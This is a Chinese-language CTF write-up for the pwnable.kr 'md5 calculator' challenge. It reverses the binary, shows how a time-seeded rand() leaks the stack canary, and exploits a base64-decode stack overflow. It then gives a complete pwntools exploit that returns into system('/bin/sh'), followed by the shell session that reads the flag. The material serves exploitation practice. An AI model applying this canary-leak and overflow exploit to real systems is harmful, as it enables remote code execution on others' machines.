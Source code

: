 ```yaml
---
title: pwnable.kr-md5 calculator
date: 2018-02-25 17:37:00
tags: [pwnable.kr,PWN]
categories: CTF
copyright: true
---
```

# 前言
也是一个很有pwn味道的题目，涉及的知识在掌握范围内所以做起来很爽！
# 分析
题目只给了可执行文件`hash`。于是就放到`ida`中逆向了。
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax@1
  int v5; // [sp+18h] [bp-8h]@1
  int v6; // [sp+1Ch] [bp-4h]@1

  setvbuf(stdout, 0, 1, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("- Welcome to the free MD5 calculating service -");
  v3 = time(0);
  srand(v3);
  v6 = my_hash();
  printf("Are you human? input captcha : %d\n", v6);
  __isoc99_scanf("%d", &v5);
  if ( v6 != v5 )
  {
    puts("wrong captcha!");
    exit(0);
  }
  puts("Welcome! you are authenticated.");
  puts("Encode your data with BASE64 then paste me!");
  process_hash();
  puts("Thank you for using our service.");
  system("echo `date` >> log");
  return 0;
}
```
```c
int my_hash()
{
  int result; // eax@4
  int v1; // edx@4
  signed int i; // [sp+0h] [bp-38h]@1
  char v3[32]; // [sp+Ch] [bp-2Ch]@2
  int v4; // [sp+10h] [bp-28h]@4
  int v5; // [sp+14h] [bp-24h]@4
  int v6; // [sp+18h] [bp-20h]@4
  int v7; // [sp+1Ch] [bp-1Ch]@4
  int v8; // [sp+20h] [bp-18h]@4
  int v9; // [sp+24h] [bp-14h]@4
  int v10; // [sp+28h] [bp-10h]@4
  int v11; // [sp+2Ch] [bp-Ch]@1

  v11 = *MK_FP(__GS__, 20);
  for ( i = 0; i <= 7; ++i )
    *(_DWORD *)&v3[4 * i] = rand();
  result = v7 - v9 + v10 + v11 + v5 - v6 + v4 + v8;
  v1 = *MK_FP(__GS__, 20) ^ v11;
  return result;
}
```
```c
int process_hash()
{
  int v0; // ST14_4@3
  char *ptr; // ST18_4@3
  char v3; // [sp+1Ch] [bp-20Ch]@1
  int v4; // [sp+21Ch] [bp-Ch]@1

  v4 = *MK_FP(__GS__, 20);
  memset(&v3, 0, 0x200u);
  while ( getchar() != 10 )
    ;
  memset(g_buf, 0, sizeof(g_buf));
  fgets(g_buf, 1024, stdin);
  memset(&v3, 0, 0x200u);
  v0 = Base64Decode(g_buf, (int)&v3);
  ptr = calc_md5((int)&v3, v0);
  printf("MD5(data) : %s\n", ptr);
  free(ptr);
  return *MK_FP(__GS__, 20) ^ v4;
}
```
```c
int __cdecl Base64Decode(const char *a1, int a2)
{
  signed int v2; // ST2C_4@1
  FILE *stream; // ST34_4@1
  int v4; // eax@1
  int v5; // ST38_4@1
  int v6; // eax@1
  int v7; // ST3C_4@1

  v2 = calcDecodeLength(a1);
  stream = (FILE *)fmemopen((int)a1, strlen(a1), (int)&unk_8049272);
  v4 = BIO_f_base64();
  v5 = BIO_new(v4);
  v6 = BIO_new_fp(stream, 0);
  v7 = BIO_push(v5, v6);
  BIO_set_flags(v7, 256);
  *(_BYTE *)(a2 + BIO_read(v7, a2, strlen(a1))) = 0;// overflow
  BIO_free_all(v7);
  fclose(stream);
  return v2;
}
```
贴出来了最关键的几个函数。通过ida反编译的代码还是很容易理清程序逻辑的，其中可以发现两处漏洞。
- `my_hash`函数中使用的变量`v11`其实是`stack canary`。
- `Base64Decode`函数会把`a1`地址处的字符串base64解码，然后会把解码后的数据复制到`a2`所指示的缓冲区内，这里由于最大复制长度使用`strlen(a1)`而不是`a2`的长度导致溢出。

程序的保护如下
```bash
root@1:~/桌面/test$ checksec hash
[*] '/home/root/\xe6\xa1\x8c\xe9\x9d\xa2/test/hash'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```
由于是栈溢出漏洞，只要通过`my_hash`函数的漏洞leak出`canary`就可以getshell。在`my_hash`中调用了`rand`函数，只要随机种子一样那么就可以预测任意一次的随机值，另外`time(0)`函数返回的时间是以秒为单位的，所以完全可以获得种子。
接下来就可以栈溢出覆盖返回地址了。`system`的地址可以使用它的plt地址，那`/bin/sh`地址呢？这里可以让程序溢出时重新跳入`process_hash`函数然后输入该字符串，把该字符串存储在数据段，由于数据段地址不变所以可以这样利用。
整理下利用思路：
1. 在连接题目时本地同样以`time`函数设置随机种子，获得随机序列并计算`canary`
2. 布置栈空间，使程序溢出时执行`process_hash`函数并向数据段写入`/bin/sh`

下面是exp
```python
import ctypes
import base64
from pwn import *

def work(DEBUG):
    context(arch='i386',os='linux',log_level='info')
    ll = ctypes.cdll.LoadLibrary
    lib = ll('libc.so.6')
    system_plt = 0x08048880
    process_hash_addr = 0x08048f92
    data_var = 0x0804b0e0
    
    if DEBUG:
        r = process('./hash')
    else:
        r = remote('pwnable.kr',9002)
        
    lib.srand(lib.time(0))
    # my_hash
    v3 = lib.rand()
    v4 = lib.rand()
    v5 = lib.rand()
    v6 = lib.rand()
    v7 = lib.rand()
    v8 = lib.rand()
    v9 = lib.rand()
    v10 = lib.rand()
    
    r.recvuntil(' : ')
    rel = int(r.recvuntil('\n'))
    canary = rel-v7+v9-v10-v5+v6-v4-v8
    canary &= 0xffffffff  
    
    payload = 'a'*0x200 #junk code
    payload += p32(canary)+'a'*12
    payload += p32(process_hash_addr)+p32(system_plt)#ret addr
    payload += 'a'*4+p32(data_var)
    payload = base64.b64encode(payload)
    
    r.sendline(str(rel))
    r.recvuntil('me!\n')
    r.sendline(payload+'\n')
    r.recvuntil('\n')
    r.sendline('/bin/sh')
    r.recvuntil('\n')
    r.interactive()
    

work(False)
```
```bash
root@1:~/桌面/test$ python 1.py
[+] Opening connection to pwnable.kr on port 9002: Done
[*] Switching to interactive mode
$ ls
flag
log
log2
md5calculator
super.pl
$ cat flag
Canary, Stack guard, Stack protector.. what is the correct expression?
$  
```
要注意的是，如果网速太差就会导致`canary`计算错误，解决办法是将exp上传到题目服务器本地执行（看题目提示）
# 总结
`stack canary`能很好的防止栈溢出，但是程序的其他地方如果能够泄漏`canary`还是没卵用。